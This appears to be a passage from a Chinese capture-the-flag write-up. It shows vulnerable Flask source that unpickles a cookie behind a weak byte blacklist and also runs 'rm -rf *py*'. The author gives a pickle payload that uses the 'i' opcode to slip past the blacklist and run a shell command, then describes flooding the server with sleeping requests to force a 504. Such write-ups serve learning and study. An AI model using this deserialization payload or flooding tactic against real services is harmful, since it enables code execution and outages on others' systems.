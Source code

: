 ```python
        # data=cursor.fetchall()[0]
        # if data:
        #     return data[0] 
        # else:
        #     return None
        return session.get("password")

@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    os.system("rm -rf *py*")
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
         return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"

@app.route('/login', methods=['GET', 'POST'])
def login():
    resp = make_response("success") 
    session["password"]=request.values.get("password")
    resp.set_cookie("userdata", base64.b64encode(pickle.dumps(User(request.values.get("username"),request.values.get("password")),2)), max_age=3600)
    return resp

@app.route('/', methods=['GET', 'POST'])
def index():
    return open('source.txt',"r").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

login路由创建session和userdata

这里balancer路由检测到pickle数据里没有R和secret后就会解pickle，所以这里是可以直接rce的，只要绕R就行了，比如这里的i

```
(S'whoami'
ios
system
.
```

## 非预期

题目只要求构造504就有flag，那么就不一定得按题目走下去，所以我这里应该是非预期了，我让这个会话sleep一段时间，多发几个包，服务器就会受不了了

![image-20220802161853201](https://tuchuang.huamang.xyz/img/image-20220802161853201.png)
